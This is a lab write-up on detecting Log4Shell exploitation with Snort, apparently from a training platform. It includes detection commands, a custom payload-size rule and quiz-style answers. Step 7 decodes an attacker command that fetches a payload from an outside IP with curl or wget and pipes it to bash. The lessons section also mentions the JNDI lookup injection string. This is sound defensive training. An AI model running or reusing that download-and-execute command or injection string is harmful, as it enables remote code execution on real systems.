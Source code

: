 # 🧪 Task 8 – Detecting Log4j Exploitation with Snort

This task focused on detecting Log4Shell (CVE-2021-44228), a critical vulnerability in Apache Log4j that allowed remote code execution via crafted input strings. It’s one of the most impactful vulnerabilities in recent history — and this lab showed how to detect its exploitation in raw traffic.

---

## 📁 PCAP File Used

`log4j.pcap`

---

## 🔧 Objective

- Use external rules to detect Log4j exploitation attempts
- Extract SID activity, packet sizes, encoding types, and payloads
- Write custom rules based on payload size
- Decode a base64-encoded attacker command

---

## 📜 Step 1 – Run Detection with Provided Rule File

```bash
sudo snort -c local.rules -r log4j.pcap -l .
```

✅ **Answer:** 26 packets detected

---

## 📊 Step 2 – Count Unique Triggered Rules

```bash
grep "\[\*\*\]" alert | awk -F ':' '{print $2}' | sort -u | wc -l
```

✅ **Answer:** 4 rules triggered

---

## 🔍 Step 3 – Extract Rule SID Prefix

```bash
grep "\[\*\*\]" alert | awk -F ':' '{print $2}' | cut -c1-6 | sort -u
```

✅ **Answer:** `210037`

---

## 📜 Step 4 – Write Rule Based on Payload Size

```snort
alert tcp any any -> any any (msg: "Packet payload size between 770 and 855 bytes detected"; dsize:770<>855; sid:1000001;)
```

**Command:**

```bash
sudo snort -c local-1.rules -A full -l . -r log4j.pcap
```

✅ **Answer:** 41 packets detected

---

## 🔍 Step 5 – Identify Encoding Algorithm

```bash
sudo strings snort.log.* | grep -i "base64"
```

✅ **Answer:** `Base64`

---

## 🧾 Step 6 – Extract IP ID

```bash
sudo strings alert | grep -i "ID"
```

✅ **Answer:** `62808`

---

## 🧠 Step 7 – Decode the Payload

Encoded payload found in log:

```
KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=
```

Decoded using `echo [string] | base64 -d`:

✅ **Decoded Command:**

```bash
(curl -s 45.155.205.233:5874/162.0.228.253:80 || wget -q -O- 45.155.205.233:5874/162.0.228.253:80) | bash
```

---

## 🧮 Step 8 – CVSS Score

**Log4j CVSS v2 Score:** `9.3`  
This reflects full remote code execution with no authentication — the highest level of criticality.

---

## 🧠 Lessons Learned

- Log4Shell often involves injecting `${jndi:ldap://...}` strings that trigger lookups and payload downloads.
- Base64 encoding is commonly used to hide attacker commands in payloads.
- Using `dsize` is a clever detection method when strings are obfuscated but payload sizes remain consistent.
- Combining alert logs with `strings`, `grep`, and `base64 -d` gives you full visibility into what attackers are doing.

---

## 🛡️ Real-World Relevance

This is the kind of attack SOC teams had to scramble to detect in late 2021. Knowing how to:

- Write detections for obfuscated strings
- Recognize payload encoding
- Decode and analyze the actual command

…makes you a more valuable analyst or detection engineer.

---

## ✅ Summary

In this final task, I:

- Detected Log4j exploit traffic using Snort
- Counted and analyzed triggered rules
- Wrote custom size-based detection
- Decoded an attacker command in base64
- Researched the vulnerability's severity

This task tied together everything from payload analysis to signature tuning — a solid end to the lab.

